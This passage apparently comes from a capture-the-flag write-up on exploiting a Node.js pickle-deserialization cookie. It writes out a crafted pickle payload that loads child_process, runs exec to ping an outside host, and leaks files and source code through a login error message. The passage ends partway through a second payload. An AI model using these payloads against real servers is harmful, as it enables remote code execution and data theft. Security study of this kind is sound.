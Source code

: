 ```
```

We have an equivalent of the `require` function directly callable from `this.rekire`, so now we can `require` any library and use the same technique to retrieve any function.

```
pickle += ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'cp'\n"+ // push arbitrary String 'cp'
"c"+ // GLOBAL
"global\n"+ //moduleName
"rekire\n"+ //name
"("+ // a marker used to define the begining of something
"S'child_process'\n"+ // 'child_process' String
"l"+ // l create an array of elements until the marker
// stack looks like [`this`, 'cp', `this.rekire`, ['child_process']]
"R"+ // REDUCE apply `this.rekire` on 'child_process'
// stack looks like [`this`, 'cp', `child_process`]
"s"+ // SETITEM so we have this.cp accessible
"c"+ // GLOBAL
"cp\n"+ //moduleName
"exec\n"+ //name
"("+
"S'ping secret-in.me'\n"+
"l"+ // push pop 'ping secret-in.me' and push ['ping secret-in.me']
"R"+ // apply `cp.exec` on 'ping secret-in.me'
"." // the end
```

We tried `child_process.execSync` but the server version didn't appear to support it and `child_process.exec` in asynchronous mode didn't allow us to do any connect back...

We need a way to get some information back in the response.

If we send this kind of cookie (don't forget to encode \n in %0A) we can see in the response :

`Could not establish your login, <em>undefined</em>. Please try logging in again.`

The original cookie is a kind of dict `{username: 'admin', password: 'admin', admin: 0}`

If we send `(dp0\nS'username'\np1\nS'test's.` we get the error `Could not establish your login, <em>test</em>. Please try logging in again.`

The idea is to create `{username: 'leaked content'}`.

And that's all ! Using `fs.readdirSync` and `fs.readFileSync` we can leak directory content and dump the whole source code !


HERE IS THE WHOLE PICKLE DEFINITION

```
var pickle = ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
// now `this` is on the stack
"S'a'\n"+ // push arbitrary String 'a' (arbitrary key name)
"c"+ // GLOBAL
"process\n"+ //moduleName
"mainModule\n"+ //name
// now we got [`this`, 'a', `process.mainModule`]
"s"+ // SETITEM
// `this` has a new parameter named 'a' which is the mainModule object !
// we do it again for constructor
"c"+ // GLOBAL
"global\n"+ //moduleName
```